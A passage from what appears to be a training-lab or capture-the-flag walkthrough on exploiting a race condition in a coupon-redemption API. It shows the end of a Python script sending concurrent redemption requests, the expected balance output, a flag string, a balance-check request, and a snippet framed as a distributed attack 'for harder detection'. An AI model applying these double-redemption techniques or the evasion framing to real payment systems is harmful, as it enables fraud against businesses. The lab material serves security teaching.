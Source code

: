 ```python
    
    print(f"\n[*] Exploitation complete!")
    print(f"[+] Successful redemptions: {successful_requests}/{num_requests}")
    print(f"[+] Expected balance increase: ${successful_requests * 50}")

if __name__ == "__main__":
    exploit_race_condition(50)
```

**Expected Output:**
```
[*] Launching 50 concurrent requests...
[+] Request 1: SUCCESS - Balance: 1050
[+] Request 2: SUCCESS - Balance: 1100
[+] Request 3: SUCCESS - Balance: 1150
...
[+] Request 15: SUCCESS - Balance: 1750
[-] Request 16: FAILED - Code already used
...
[*] Exploitation complete!
[+] Successful redemptions: 15/50
[+] Expected balance increase: $750
```

#### Step 4: Balance Manipulation Verification
**Objective:** Verify the exploitation by checking the final balance

1. Check the final balance in the lab interface
2. Verify that you've applied the discount multiple times
3. **Flag reward:** `{RACE_CONDITION_EXPLOITED_MULTIPLE_USES}`

**Burp Suite Verification:**
```http
GET /api/vuln/race-condition/balance?accountId=user123 HTTP/1.1
Host: localhost:5000
```

**Expected Response:**
```json
{
  "balance": 1750,
  "appliedDiscounts": 15,
  "message": "Race condition successfully exploited"
}
```

#### Step 5: Advanced Race Condition Techniques

**Distributed Race Condition Attack:**
```python
# Use multiple IP addresses or machines for harder detection
import requests
from requests.adapters import HTTPAdapter
from requests.packages.urllib3.util.retry import Retry

def create_session_with_retry():
    session = requests.Session()
    retry = Retry(total=5, backoff_factor=0.1)
    adapter = HTTPAdapter(max_retries=retry, pool_connections=100, pool_maxsize=100)
    session.mount('http://', adapter)
    return session
```
